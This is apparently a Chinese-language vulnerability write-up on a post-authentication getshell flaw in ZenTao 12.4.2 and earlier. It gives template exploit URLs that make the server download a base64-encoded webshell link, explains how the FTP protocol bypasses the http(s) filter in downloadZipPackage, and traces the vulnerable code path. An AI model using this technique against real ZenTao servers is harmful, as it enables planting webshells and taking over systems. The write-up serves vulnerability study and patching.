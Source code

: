 # 禅道<=12.4.2 后台getshell



## 漏洞利用

Exploit：

http://127.0.0.1/zentao/client-download-1-(base64 encode webshelldownload link)-1.html

http://127.0.0.1/zentao/data/client/1/(download link filename)


 **复现：**

![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image002.jpg)

使用**FTP****协议**下载文件，绕过**module/client/ext/model/xuanxuan.php:10** **downloadZipPackage** 的**HTTP****协议**过滤。
 

![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image004.jpg)

 

## 漏洞分析

 module/client/control.php:86
 ![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image002-4408108.jpg)

参数直接传入**module**，跟进**downloadZipPackage****函数**，全局搜索可以发现有两个**downloadZipPackage函数**：
 module/client/ext/model/xuanxuan.php:10

![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image004-4408108.jpg)

对**link****参数**解密后进行过滤，如果正则匹配到**http(s)://**则返回**false**，我们可以去使用FTP协议绕过。
 module/client/model.php:240

![img](.resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image006.jpg)

base64解密**link****参数**后将下载文件至**data/client/**拼接version参数的目录，无任何过滤。

调用路径：control-> ext module -> module